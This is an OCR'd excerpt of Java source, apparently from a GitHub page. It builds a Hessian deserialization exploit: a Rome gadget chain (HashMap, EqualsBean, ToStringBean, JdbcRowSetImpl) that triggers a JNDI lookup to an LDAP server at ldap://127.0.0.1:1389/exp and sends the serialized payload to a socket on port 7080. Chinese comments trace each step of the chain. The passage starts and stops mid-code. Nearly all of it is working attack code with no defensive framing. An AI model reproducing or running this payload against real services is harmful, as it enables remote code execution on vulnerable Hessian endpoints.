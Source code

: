 ```
            byte[] DESERIALIZATION_PAYLOAD = getPayload();
            Socket socket = new Socket("localhost", 7080);
            DataOutputStream out = new DataOutputStream(socket.getOutputStream());
            out.writeInt(DESERIALIZATION_PAYLOAD.length);
            out.write(DESERIALIZATION_PAYLOAD);
            out.flush();
            socket.close();
        } catch (Exception ex) {
            System.err.println(ex);
        }
    }

    public static byte[] getPayload() throws Exception {


        //反序列化时ToStringBean.toString()会被调用，触发JdbcRowSetImpl.getDatabaseMetaData->JdbcRowSetImpl.connect->Context.lookup
        String jndiUrl = "ldap://127.0.0.1:1389/exp";
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        rs.setDataSourceName(jndiUrl);
        rs.setMatchColumn("foo");

//反序列化时EqualsBean.beanHashCode会被调用，触发ToStringBean.toString
        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);

//反序列化时HashMap.hash会被调用，触发EqualsBean.hashCode->EqualsBean.beanHashCode
        EqualsBean root = new EqualsBean(ToStringBean.class, item);

//HashMap.put->HashMap.putVal->HashMap.hash
        HashMap<Object, Object> s = new HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        } catch (ClassNotFoundException e) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, root, root, null));
        setFieldValue(s, "table", tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);
        hessian2Output.writeObject(s);
        hessian2Output.flushBuffer();
        return byteArrayOutputStream.toByteArray();
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
```